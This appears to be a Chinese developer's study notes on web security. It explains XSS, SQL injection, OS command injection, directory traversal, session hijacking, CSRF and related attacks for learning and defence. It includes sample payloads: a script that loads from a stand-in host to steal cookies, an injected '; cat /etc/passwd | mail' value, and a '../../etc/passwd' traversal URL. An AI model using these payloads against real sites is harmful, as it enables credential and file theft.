






## 思维导图

> 思维导图来自： [霸天的前端笔记](https://www.zhihu.com/column/c_57862727)







## 针对 Web 的攻击模式



**被动攻击的模式**：



**利用用户的身份攻击企业内部网络**

可以攻击企业内网



## 因输出值转义不完全引发的安全漏洞

### 什么是输出值不转义？

Web 应用的安全对策：

- 客户端验证：客户端(JavaScript)验证主要是尽早辨识输入错误，UI 体验的功能
- Web端验证
  - 输入值验证：业务逻辑检查 & 字符编码检查等
  - **输出值转义：转义不完全时，会因触发攻击者传入的攻击代码**

### 1. 跨站脚本攻击（Cross-Site Scripting，XSS）

**什么是XSS**：通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

**XSS的后果**：

- 虚假输入表单骗取个人信息
- 窃取用户Cookie值
- 显示伪造的文章或文章

**XSS案例**：

1.表单骗取个人信息

```html
<div class="logo"> 
  
</div> 

<form action="http://example.jp/login" method="post" id="login">     
    <div class="input_id"> ID 
        <input type="text" name="ID" value="">
        <script>var f=document.getElementById("login");</script>
    </div>
</form>
<!-- input 后面带着 script 脚本，就不知不觉获取了信息了 --!>
```

2.Cookie 窃取攻击

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
//文件: http://hackr.jp/xss.js
var content = escape(document.cookie); 
document.write("");
// 通过这种方式，就以请求图片的方式，把自己的Cookie信息发送出去了。
```

### 2. SQL注入攻击（SQL Injection）

**SQL 注入** 是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

**SQL注入的案例**：

**正常的请求**：`http://example.com/search?q=小米`

对应的SQL为 `select * from bookstort where author=小米 and flag=1 ` 

**SQL注入请求**：`http://example.com/search?q=小米 --`

对于SQL为 `select * from bookstort where author=小米 -- and flag=1`

由于SQL 中 `--` 是注释，就把后面的 flag 条件给省略了。

如果这个条件是一些保密信息的限制条件的话，就容易造成损失。

### 3. OS 命令注入攻击（OS Command Injection）

**OS命令攻击** 是通过 Shell 来调用操作系统命令。

**OS注入攻击的案例**:

```php
// php中发送邮件的一段代码
my $adr = $q->param('mailaddress'); 
open(MAIL, "| /usr/sbin/sendmail $adr");
```

正常是邮箱地址 `hack@example.jp`

OS注入是 `; cat /etc/passwd | mail hack@example.jp` ，拼接后就是

`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`

带入了系统的账户信息一起发送了

### 4. 邮件首部注入攻击（Mail Header Injection）

邮件首部注入是指通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

### 5. 目录遍历攻击（Directory Traversal）

目录遍历攻击是指对本无意公开的文件目录， 通过非法截断其目录路径后，达成访问目的的一种攻击。案例如下:

```
http://example.com/read.php?log=0401.log # 正常
http://example.com/read.php?log=../../etc/passwd # 获取账户信息
```


## 因设置或设计上的缺陷引发的安全漏洞

- **强制浏览（Forced Browsing）**：强制浏览漏洞是指从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

  比如对用户的私密照片没有做权限管理，使得任何人只要知道URL就可以访问。

- **不正确的错误消息处理（Error Handling Vulnerability）**: 一些Web应用的错误信息包含了对攻击者有利的信息。

- **开放重定向功能（Open Redirect）**：对指定的任意 URL 作重定向跳转，有可能导致用户被诱导到恶意Web网站

## 因会话管理疏忽引发的安全漏洞

- **会话劫持（Session Hijack）**：会话劫持是指攻击者通过某种手段拿到了用户的会 话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  获取 SessionID 的方式有：

  - 非正规的生成方法推测会话 ID
  - 窃听或 XSS 攻击
  - 会话固定攻击（Session Fixation）强行获取会话 ID：强迫用户使用自己固定的SID进行登录

- **跨站点请求伪造（Cross-Site Request Forgeries，CSRF）**：强制对 **已完成认证的用户** 进行非预期的个人信息或设定信息等某些状态更新。
  比如嵌入某些修改信息的URL，用户在不知觉的情况下就实现了修改的操作，网站也无法区分。

## 其他安全漏洞

### 密码破解

一般破解的手段：

- 试错法：穷举、字典攻击（其他Web网站的密码）
- 已加密密码进行破解：网站一般不会以明文存储密码，而是通过 散列函数 或 加盐的操作进行加密。此类的破解方式有：穷举、彩虹表、获取密钥

### 点击劫持

通过透明遮罩覆盖原先的图像

### DoS 攻击（Denial of Service attack）

**DoS 攻击**是一种让运行中的服务呈停止状态的攻击。服务器无法区分正常请求和攻击请求，使得服务瘫痪。

### 后门程序（Backdoor）

后门程序是指开发设置的隐藏入口，用于调试和测试使用。